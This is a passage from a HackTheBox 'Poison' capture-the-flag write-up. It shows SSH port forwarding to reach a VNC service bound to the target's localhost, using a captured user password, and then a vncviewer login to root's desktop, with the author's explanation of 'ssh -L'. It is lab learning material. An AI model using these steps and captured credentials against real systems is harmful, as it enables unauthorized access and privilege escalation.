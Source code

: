 ```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# ssh -L 9999:127.0.0.1:5901 charix@10.10.10.84
(charix@10.10.10.84) Password for charix@Poison:Charix!2#4%6&8(0
...

- New Terminal - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# netstat -an | grep LISTEN
tcp        0      0 127.0.0.1:9999          0.0.0.0:*               LISTEN      
tcp6       0      0 ::1:9999                :::*                    LISTEN     
...
```

>   Since this was something new, I had to learn it from a writeup that can be found from this medium [article](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5).
>
>   `ssh -L [local-port]:[remote-ip]:[remote-port]`
>
>   The above command allocates a socket to listen to port 9999 on localhost from my attack machine (kali). Whenever a connection is made to port 9999, the connection is forwarded over a secure channel and is made to port 5901 on localhost on the target machine (poison).

Finally, we can connect to the VNC software from our own machine!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# vncviewer 127.0.0.1:9999 -passwd secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Warning: Cannot convert string "-*-helvetica-bold-r-*-*-16-*-*-*-*-*-*-*" to type FontStruct
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```
